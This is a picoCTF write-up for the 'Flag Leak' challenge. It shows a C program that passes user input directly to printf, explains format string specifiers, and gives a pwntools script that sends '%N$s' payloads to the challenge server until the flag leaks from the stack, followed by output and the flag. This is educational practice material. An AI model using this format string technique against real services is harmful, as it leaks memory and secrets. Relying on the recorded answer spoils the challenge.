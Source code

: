 # Flag Leak 
#### Description
Story telling class 1/2I'm just copying and pasting with this [program](https://artifacts.picoctf.net/c/91/vuln). What can go wrong? You can view source [here](https://artifacts.picoctf.net/c/91/vuln.c). And connect with it using:`nc saturn.picoctf.net 55800`

Contents of `vuln.c` : 

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 64
#define FLAGSIZE 64

void readflag(char* buf, size_t len) {
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,len,f); // size bound read
}

void vuln(){
   char flag[BUFSIZE];
   char story[128];

   readflag(flag, FLAGSIZE);

   printf("Tell me a story and then I'll tell you one >> ");
   scanf("%127s", story);
   printf("Here's a story - \n");
   printf(story);
   printf("\n");
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  return 0;
}
```

Lets analyse the code. Here is what is interesting: 

```c
void vuln(){
   char flag[BUFSIZE];
   char story[128];

   readflag(flag, FLAGSIZE);

   printf("Tell me a story and then I'll tell you one >> ");
   scanf("%127s", story);
   printf("Here's a story - \n");
   printf(story); // <- no format specifier, vulnerable to format string attacks
   printf("\n");
}
```

This is how the print statement works: 
The `printf` function takes a variable number of arguments. The 0th argument is the format string, and the 1st and late arguments are the values that match the format. The grammar of a conversion specification is: 
```
%[argument$][flags][width][.precision][length modifier]conversion
```

But in the program given above, there is only one argument passed in the `printf` statement. 
So, we have full control on what format string to use. 

Now, we can craft a python script, that checks all stack addresses for the flag.  

Python script: 
```python
from pwn import * 

for i in range(128):
    x = remote('saturn.picoctf.net', 57992)
    try: 
        x.sendline('%' + str(i) + '$s')
        x.recvuntil(b'>')
        y = x.recvlines(2)[1] # this line was giving me EOF error, so I put it in a try except block  
        if b'CTF' in y:
            print(y)
            x.close()
            break
        print(i, y)
        x.close()
    except Exception:
        pass
```

What this code does is basically, sends the format string `%{integer}$s` to the program, returns its output and then closes the connection with the server. 

If the output contains `CTF`, then it will print the output and and close the connection and break the loop.  

`%{integer}$s` -> `printf` will fetch whatever value is at the stack location for argument {integer} and treat that value as an address. It will then try to read a NUL-terminated string from that address and print it.

I tried using `%x`, but it didn't yield any results, even up until the end of the buffer. 
`%s` is what gave out the flag. 

Output: 
```
 x.sendline('%' + str(i) + '$s')
0 b'%0$s'
[*] Closed connection to saturn.picoctf.net port 57992
[+] Opening connection to saturn.picoctf.net on port 57992: Done
1 b'%1$s'
[*] Closed connection to saturn.picoctf.net port 57992
[+] Opening connection to saturn.picoctf.net on port 57992: Done
2 b'\x10Q\x93\xf2'
[*] Closed connection to saturn.picoctf.net port 57992
[+] Opening connection to saturn.picoctf.net on port 57992: Done
3 b'\x81\xc3\xba,'
[*] Closed connection to saturn.picoctf.net port 57992
[+] Opening connection to saturn.picoctf.net on port 57992: Done
[+] Opening connection to saturn.picoctf.net on port 57992: Done
[+] Opening connection to saturn.picoctf.net on port 57992: Done
6 b'(null)'
[*] Closed connection to saturn.picoctf.net port 57992
[+] Opening connection to saturn.picoctf.net on port 57992: Done
7 b'\x07/'
[*] Closed connection to saturn.picoctf.net port 57992
[+] Opening connection to saturn.picoctf.net on port 57992: Done
8 b''
[*] Closed connection to saturn.picoctf.net port 57992
[+] Opening connection to saturn.picoctf.net on port 57992: Done
[+] Opening connection to saturn.picoctf.net on port 57992: Done
10 b'(null)'
[*] Closed connection to saturn.picoctf.net port 57992
[+] Opening connection to saturn.picoctf.net on port 57992: Done
11 b'\xb3.'
[*] Closed connection to saturn.picoctf.net port 57992
[+] Opening connection to saturn.picoctf.net on port 57992: Done
12 b''
[*] Closed connection to saturn.picoctf.net port 57992
[+] Opening connection to saturn.picoctf.net on port 57992: Done
13 b'(null)'
[*] Closed connection to saturn.picoctf.net port 57992
[+] Opening connection to saturn.picoctf.net on port 57992: Done
14 b''
[*] Closed connection to saturn.picoctf.net port 57992
[+] Opening connection to saturn.picoctf.net on port 57992: Done
15 b'\x83\xc4\x10\x83\xf8\xff\x0f\x84\xba'
[*] Closed connection to saturn.picoctf.net port 57992
[+] Opening connection to saturn.picoctf.net on port 57992: Done
16 b'\x87(\xad\xfbg\x8d@\xeeg\x8d@\xeeg\x8d@\xeeg\x8d@\xeeg\x8d@\xeeg\x8d@\xeeg\x8d@\xeeh\x8d@\xee'
[*] Closed connection to saturn.picoctf.net port 57992
[+] Opening connection to saturn.picoctf.net on port 57992: Done
[+] Opening connection to saturn.picoctf.net on port 57992: Done
18 b'(null)'
[*] Closed connection to saturn.picoctf.net port 57992
[+] Opening connection to saturn.picoctf.net on port 57992: Done
19 b'setresgid'
[*] Closed connection to saturn.picoctf.net port 57992
[+] Opening connection to saturn.picoctf.net on port 57992: Done
20 b'\xa0\xb1\xd5\xec'
[*] Closed connection to saturn.picoctf.net port 57992
[+] Opening connection to saturn.picoctf.net on port 57992: Done
21 b'\x89\xc7e\xa1\x0c'
[*] Closed connection to saturn.picoctf.net port 57992
[+] Opening connection to saturn.picoctf.net on port 57992: Done
22 b'setresgid'
[*] Closed connection to saturn.picoctf.net port 57992
[+] Opening connection to saturn.picoctf.net on port 57992: Done
23 b''
[*] Closed connection to saturn.picoctf.net port 57992
[+] Opening connection to saturn.picoctf.net on port 57992: Done
b'CTF{L34k1ng_Fl4g_0ff_St4ck_11a2b52a}'
[*] Closed connection to saturn.picoctf.net port 57992
[*] Closed connection to saturn.picoctf.net port 57992
[*] Closed connection to saturn.picoctf.net port 57992
[*] Closed connection to saturn.picoctf.net port 57992
[*] Closed connection to saturn.picoctf.net port 57992
```

flag: `picoCTF{L34k1ng_Fl4g_0ff_St4ck_11a2b52a}`

Reference: 
https://ctf101.org/binary-exploitation/what-is-a-format-string-vulnerability/
https://docs.pwntools.com/en/stable/

